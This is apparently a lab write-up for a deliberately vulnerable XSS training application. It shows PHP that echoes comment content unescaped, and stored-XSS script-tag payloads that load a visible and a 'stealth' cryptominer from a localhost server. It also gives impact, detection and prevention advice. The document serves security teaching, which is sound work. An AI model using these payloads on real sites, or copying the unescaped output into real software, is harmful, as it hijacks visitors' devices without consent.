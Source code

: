 # Cryptojacking Vulnerability

This document explains the cryptojacking vulnerability that has been added to the XSS lab.

## What is Cryptojacking?

Cryptojacking is a type of cyberattack where attackers secretly use a victim's computing resources to mine cryptocurrency. This is done by running JavaScript code in the victim's browser that performs the computationally intensive work of cryptocurrency mining.

## How the Vulnerability Works

In our vulnerable application, we have a comment system that does not properly sanitize user input. This allows attackers to inject malicious JavaScript code that will be executed in the browsers of other users who view the comments.

The vulnerability exists in `index.php` where comment content is displayed without proper sanitization:

```php
// Intentionally vulnerable to XSS
echo "<p>" . $row['content'] . "</p>";
```

Instead of using `htmlspecialchars()` to escape HTML entities, the application directly outputs the raw content, allowing JavaScript to be executed.

## The Attack Payload

An attacker can post a comment containing JavaScript that loads and executes the cryptomining script:

```html
<script src="http://localhost:8081/miner.js"></script>
```

When other users view the page with this comment, their browsers will load and execute the mining script, which will:

1. Start consuming CPU resources to perform mining calculations
2. Display a small UI element showing mining statistics (for the basic miner)
3. Periodically report mining statistics back to the attacker's server

For a more stealthy approach, attackers can use the stealth miner:

```html
<script src="http://localhost:8081/stealth_miner.js"></script>
```

The stealth miner operates without any visible UI and adapts its mining intensity based on user activity to avoid detection.

## Impact of the Attack

The impact of this attack includes:

1. **Resource Consumption**: Victims' devices will experience increased CPU usage, leading to:
   - Reduced battery life on mobile devices
   - System slowdowns
   - Increased power consumption
   - Potential overheating

2. **Financial Impact**: The attacker profits from the cryptocurrency mined using the victims' resources.

3. **User Experience Degradation**: The website becomes slower and less responsive for victims.

## Detecting the Attack

Users might notice:
- Unexplained high CPU usage
- Device running hotter than normal
- Battery draining faster than usual
- Browser performance degradation
- Unusual network requests to unknown domains

## Prevention Measures

To prevent this vulnerability:

1. **Input Sanitization**: Always sanitize user input before displaying it:
   ```php
   echo "<p>" . htmlspecialchars($row['content']) . "</p>";
   ```

2. **Content Security Policy (CSP)**: Implement a strict CSP that prevents execution of unauthorized scripts:
   ```
   Content-Security-Policy: default-src 'self'; script-src 'self'
   ```

3. **Output Encoding**: Ensure all dynamic content is properly encoded for the context it appears in.

4. **Regular Security Audits**: Regularly review code for security vulnerabilities.

## Lab Exercise

To demonstrate this vulnerability:

1. Log in to the vulnerable application
2. Post a comment with one of the following payloads:
   ```html
   <!-- Basic miner (visible UI) -->
   <script src="http://localhost:8081/miner.js"></script>
   
   <!-- Stealth miner (completely hidden) -->
   <script src="http://localhost:8081/stealth_miner.js"></script>
   ```
3. Log in as another user and view the comments
4. Observe the mining activity in the browser (CPU usage increase, mining UI for basic miner)
5. Visit `http://localhost:8081/mining_logs.php` to see the collected mining statistics

## Ethical Considerations

This lab is for educational purposes only. In real-world scenarios:
- Cryptojacking is illegal and unethical
- It violates users' trust and consumes their resources without consent
- It can cause damage to hardware through excessive resource usage

Always obtain proper authorization before security testing and never deploy cryptojacking scripts on production systems or against real users. 